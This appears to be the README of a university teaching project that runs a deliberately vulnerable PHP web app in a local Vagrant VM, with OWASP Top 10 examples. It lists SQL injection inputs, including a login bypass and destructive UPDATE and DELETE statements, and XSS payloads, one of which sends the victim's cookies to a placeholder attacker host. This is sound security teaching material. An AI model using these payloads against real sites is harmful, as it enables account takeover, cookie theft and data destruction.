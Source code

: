 # zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install VirtualBox
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd $PRJ_HOME
> vagrant up
```
* in browser go to http://192.168.33.10/index.php

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
```
* or even worst
```sql
'; UPDATE  user SET password='123
'; DELETE FROM user WHERE id='8
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
"><script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>"
```
___

### TODOs:
- when you start the machine for the first time there is mysql error at the end of the provisioning:
  - ==> default: ERROR 2002 (HY000): Can't connect to local MySQL server through socket '/var/lib/mysql/mysql.sock' (2)
  - ==> default: ERROR 2002 (HY000): Can't connect to local MySQL server through socket '/var/lib/mysql/mysql.sock' (2)
